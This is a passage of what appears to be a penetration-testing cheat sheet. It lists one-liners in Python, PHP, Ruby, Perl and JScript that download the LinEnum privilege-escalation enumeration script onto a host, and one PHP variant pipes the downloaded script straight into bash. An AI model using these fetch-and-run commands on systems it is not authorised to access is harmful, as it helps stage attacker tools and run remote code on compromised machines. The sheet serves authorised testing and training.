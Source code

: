 ***

#### Python 2 - Download

-`python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

#### Python 3 - Download

* `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

### PHP

***

#### PHP Download with File\_get\_contents()

* `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

#### PHP Download with Fopen()

* `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`

#### PHP Download a File and Pipe it to Bash

* `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

### Ruby

***

#### Ruby - Download a File

* `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`

### Perl

***

#### Perl - Download a File

* `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

### JavaScript

***

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
